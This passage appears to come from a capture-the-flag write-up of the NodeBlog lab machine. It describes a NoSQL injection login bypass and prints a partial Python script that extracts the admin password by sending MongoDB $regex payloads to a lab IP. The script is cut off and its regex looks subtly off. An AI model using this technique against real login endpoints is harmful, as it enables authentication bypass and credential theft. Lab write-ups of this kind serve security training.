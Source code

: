 Now send the login request with the payload.

![Untitled 9.png](NodeBlog/assets/Untitled%209.png)

You can see that we have successfully bypassed the authentication and we have logged in. This shows that the application is vulnerable to NoSQL injection.

Since, we have found that the application is vulnerable to NoSQL Injection, we can try to extract the password of the user `admin` using the following payload.

![Untitled 10.png](NodeBlog/assets/Untitled%2010.png)

The above mentioned payload uses regular expression to check whether the password is starting with the mentioned letter. I have created a python script which loops through all the letters in the ASCII encoding and extracts the password using the above mentioned payload:

```
// Password Enumeration Script //

import requests
import string
import sys

url = "http://10.10.11.139:5000/login"
headers = {"Content-Type": "application/json"}
password = ""

status = True

while status:
    data = {
        "user": "admin",
        "password": {"$regex": f"^{password}$" }
    }

    response = requests.post(url, headers=headers, json=data)

```
